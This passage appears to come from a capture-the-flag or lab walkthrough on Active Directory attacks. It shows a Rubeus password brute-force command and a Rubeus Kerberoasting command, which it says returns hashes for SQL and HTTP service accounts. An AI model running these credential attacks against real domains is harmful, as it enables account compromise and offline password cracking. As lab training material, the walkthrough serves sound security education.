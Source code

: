 Now we can run a brute force attack:

<mark style="color:green;">**`Rubeus.exe brute /password:Password1 /noticket`**</mark>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<details><summary><mark style="color:green;"><strong>Task 3 Questions and Answers</strong></mark></summary></details>

### Kerberoasting w/ Rubeus

Navigate to the downloads folder in a terminal and run the following command:

<mark style="color:green;">**`C:\Users\Administrator\Downloads>Rubeus.exe kerberoast`**</mark>

We get 2 hashes, one for SQLservice and another from HTTPservice
